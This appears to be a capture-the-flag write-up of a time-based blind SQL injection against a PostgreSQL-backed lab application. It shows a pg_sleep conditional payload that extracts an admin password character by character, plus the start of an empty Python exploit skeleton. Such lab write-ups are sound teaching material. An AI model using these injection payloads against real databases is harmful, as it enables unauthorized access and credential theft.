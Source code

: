 # Time-Base SQLInjection

We tried some standard payloads. We get some of them from this [cheatsheet](https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection)

And we saw that the pg_sleep worked, so it's vulnerable to time-based sqlinjection

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-15-bmdyy-Order/2021-11-15-bmdyy-Order%2012:11:05.png)

It took three seconds then executed the command on the postgresql database

So, we mount our query based on this other [post](https://www.onsecurity.io/blog/pentesting-postgresql-with-sql-injections/)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-15-bmdyy-Order/2021-11-15-bmdyy-Order%2012:14:00.png)

```sql
SELECT CASE WHEN COUNT((SELECT password FROM users WHERE SUBSTR(password,1,1) SIMILAR TO '4'))<>0 THEN pg_sleep(5) ELSE '' END; -- -
```

And we discover that the first char of the password is 4

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-15-bmdyy-Order/2021-11-15-bmdyy-Order%2012:14:52.png)

So we can now built our payload to extract the password, it's going to take a good time because it's time_based query. I needed to change to user_id = 1 because it was not getting the admin one, there are other user in the database, and we want only the admin one.

Let's make a exploit to do this all stuff together

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```
